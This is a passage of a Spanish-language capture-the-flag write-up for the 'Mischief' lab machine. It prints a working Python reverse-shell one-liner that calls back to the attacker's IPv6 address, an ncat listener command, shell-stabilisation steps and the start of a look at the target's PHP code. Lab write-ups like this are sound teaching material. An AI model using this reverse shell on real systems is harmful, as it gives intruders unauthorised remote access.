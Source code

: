 ```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1000",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

En mi caso, mi ipv6 es **dead:beef:2::1000** y quiero recibir la shell por el puerto **443**.

Ahora, si me pongo en escucha por esta interfaz con el comando *ncat -nv6 --listen dead:beef:2::1000 443* y ejecuto la instrucción anterior, debería de obtener una shell:

<img src="/photos/2022-10-14-Mischief-WriteUp/consolereceived.png"  />  

En el primer apartado del ***Anexo*** dejo un *script* en python que te automatiza la intrusión como el usuario www-data.

En el **Anexo** explico una forma de poder visualizar el archivo ***credentials*** sin ganar acceso a la máquina, con ***pings***.

##  Consiguiendo shell como loki

Una vez recibida la shell, deberemos hacerle un **tratamiento** para que nos permita poder hacer *Ctrl+C*, limpiar la terminal, movernos con las flechas... Los  comandos que ingresaremos serán:

```python
script /dev/null -c bash
*Ctrl+Z*
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

También deberemos **adaptar el número de filas y de columnas** de esta *shell*. Con el comando ```stty size``` podemos consultar nuestras filas y columnas y con el comando ```stty rows <rows> cols <cols>``` podemos ajustar estos campos.

###  Reconocimiento del sistema

#### Analizando archivos de la web

En la ruta */var/www/html* podemos encontrar los archivos que componen la web del puerto 80. Si inspeccionamos el ***index.php*** podemos ver por qué no nos dejaba ejecutar algunos comandos como *ls*, *curl* o *wget*.

```php
www-data@Mischief:/var/www/html$ cat index.php 
<?php

session_start();

require 'database.php';

if( isset($_SESSION['user_id']) ){

	$records = $conn->prepare('SELECT id,user,password FROM users WHERE id = :id');
	$records->bindParam(':id', $_SESSION['user_id']);
	$records->execute();
	$results = $records->fetch(PDO::FETCH_ASSOC);
```